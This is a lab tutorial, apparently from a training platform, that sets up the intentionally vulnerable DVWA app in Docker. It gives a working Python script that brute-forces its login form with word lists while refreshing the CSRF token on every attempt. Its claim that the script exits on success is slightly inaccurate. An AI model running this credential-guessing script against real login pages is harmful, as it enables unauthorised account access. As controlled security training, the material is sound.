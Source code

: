 ### Ethical Login Testing


This document provides a guide to ethically automate login testing using Python, targeting a web application hosted via Poridhi's load balancer. The script tests username-password combinations dynamically while handling CSRF tokens to ensure compliance with server-side protections. The setup involves using a Docker container to simulate the target environment and securely testing login credentials.


### **Objective**

1. **Test login functionality**: Validate credentials against a web application's login form.
2. **Handle CSRF Protection**: Dynamically extract and use CSRF tokens to bypass security mechanisms.
3. **Simulate ethical brute-forcing**: Automate username-password testing in a controlled environment.
4. **Demonstrate security insights**: Highlight the importance of robust error handling and CSRF implementation.

### **Create the Docker Container and Run it via Poridhi's Load Balancer**

1. **Pull the DVWA Docker Image**:
   ```bash
   docker pull vulnerables/web-dvwa
   ```

2. **Run the DVWA Container**:
   ```bash
   docker run -d -p 80:80 vulnerables/web-dvwa
   ```

3. **Access the Application via Poridhi's Load Balancer**:
   - The load balancer is configured at `https://66dbf2e46722fdb9097e9eb5-lb-427.bm-north.lab.poridhi.io/`.
   - Ensure the container is reachable through the load balancer URL.

4. **Set the DVWA Security Level**:
   - Open the load balancer URL in a browser.
   - Log in using the default credentials:
     - **Username**: `admin`
     - **Password**: `password`
   - Navigate to the **DVWA Security** tab and set the security level to **Low**.



### **Script**

Here’s the Python script to automate login testing:

```python
import requests
import re

# Base URL and login endpoint
url_base = "https://66dbf2e46722fdb9097e9eb5-lb-427.bm-north.lab.poridhi.io/"
url_login = url_base + "login.php"

# File paths for usernames and passwords
path_users_file = 'usernames.txt'
path_passwords_file = 'passwords.txt'

# Function to retrieve CSRF token
def get_csrf_token(session):
    response = session.get(url_login)
    if response.status_code == 200:
        match = re.search(r"name='user_token' value='(.*?)'", response.text)
        if match:
            return match.group(1)
    print("Failed to retrieve CSRF token.")
    return None

# Function to attempt login
def attempt_login(session, username, password, csrf_token):
    login_data = {
        'username': username,
        'password': password,
        'Login': 'Login',
        'user_token': csrf_token
    }
    response = session.post(url_login, data=login_data)
    if "Login failed" not in response.text:
        return True
    return False

# Read usernames and passwords from files
with open(path_users_file, 'r') as f:
    usernames = [line.strip() for line in f]
with open(path_passwords_file, 'r') as f:
    passwords = [line.strip() for line in f]

# Initialize session and validate connection
session = requests.Session()
response = session.get(url_base)
if response.status_code != 200:
    print("Unable to connect to the application.")
    exit()

# Main script logic
csrf_token = get_csrf_token(session)
if not csrf_token:
    exit()

for username in usernames:
    for password in passwords:
        csrf_token = get_csrf_token(session)  # Refresh token for each attempt
        if attempt_login(session, username, password, csrf_token):
            print(f"Success! Username: {username}, Password: {password}")
            break
```



### **Explanation of the Script**

1. **Initial Setup**:
   - **URLs**: Define the base URL and login endpoint for Poridhi's load balancer.
   - **File Paths**: Specify file paths for `usernames.txt` and `passwords.txt`.

2. **Retrieve CSRF Token**:
   - **Function**: `get_csrf_token`
   - Sends a GET request to the login page.
   - Extracts the CSRF token (`user_token`) using a regular expression.

3. **Attempt Login**:
   - **Function**: `attempt_login`
   - Sends a POST request with the username, password, CSRF token, and form data.
   - Validates login success by checking the absence of `"Login failed"` in the server response.

4. **File Handling**:
   - Reads usernames and passwords from `usernames.txt` and `passwords.txt`.

5. **Main Logic**:
   - Loops through each username-password combination.
   - Refreshes the CSRF token for every login attempt.
   - Prints successful credentials and exits upon success.



### **Run the Script**

1. **Prepare Input Files**:
   - **`usernames.txt`**:
     ```
     admin
     user
     test
     guest
     ```
   - **`passwords.txt`**:
     ```
     password
     admin
     guest
     test123
     ```

2. **Save the Script**:
   - Save the script as `test.py` in the same directory as the input files.

3. **Run the Script**:
   ```bash
   python3 test.py
   ```

### **Expected Output**

If the script identifies valid credentials, it will print:
```
Success! Username: admin, Password: password
```

If no valid credentials are found, the script will terminate without any output.

### **Conclusion**

This guide demonstrates how to set up a controlled environment using Poridhi's load balancer and Docker for testing login credentials with a Python script. The script highlights the importance of CSRF protection and error handling in web applications. Use this script responsibly and only in environments where you have explicit permission for ethical testing.
